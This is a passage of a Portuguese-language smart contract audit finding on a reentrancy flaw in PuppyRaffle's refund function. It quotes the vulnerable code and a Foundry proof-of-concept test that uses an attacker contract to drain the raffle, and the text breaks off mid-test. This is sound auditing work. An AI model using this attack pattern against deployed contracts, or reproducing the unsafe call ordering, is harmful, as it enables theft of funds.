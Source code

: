 - Alternativamente, você poderia usar a biblioteca EnumerableSet do OpenZeppelin.

### [F-6] Reentrancy Attack
Em `PuppyRaffle::refund` está vulnerável a Reetrnacy Attack e ser drenado todo o balance do contrato.

A funçao `refund` não segue o padrão CEI para evitar reentradas.

**Impact**
O endereço que estive chamando a função, pode ter uma função de fallback ou receive que liga de volta a função refund, fazendo a chamada para refund entre num loop até ser drenado todo dinheiro do contrato PuppyRaffle.

**Proof of Concept**
A vulnerabilidade se encontra onde primeiro é feito uma chamada externa, e só depois é feito
a atualização no array de players.

```javascript
function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>       payable(msg.sender).sendValue(entranceFee);

@>       players[playerIndex] = address(0);

        emit RaffleRefunded(playerAddress);
    }
```
<details>
<summary>Code</summary>
Test

```javascript
function test_reentrancyRefund() public {
        // users entering raffle
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);
        uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;
        console.log("PuppyRaffle balance: ", startingPuppyRaffleBalance);

        // create attack contract and user
        ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
        address attacker = makeAddr("attacker");
        vm.deal(attacker, 1 ether);

        // noting starting balances
        uint256 startingAttackContractBalance = address(attackerContract).balance;
        console.log("AttackerContract balance before the attack: ", startingAttackContractBalance);

        // attack
        vm.prank(attacker);
        attackerContract.attack{value: entranceFee}();

        // impact
        // console.log("attackerContract balance: ", startingAttackContractBalance);
        // console.log("puppyRaffle balance: ", startingPuppyRaffleBalance);
        console.log("AttackerContract balance after the attack: ", address(attackerContract).balance);
        console.log("PuppyRaffle balance after the attack: ", address(puppyRaffle).balance);
```
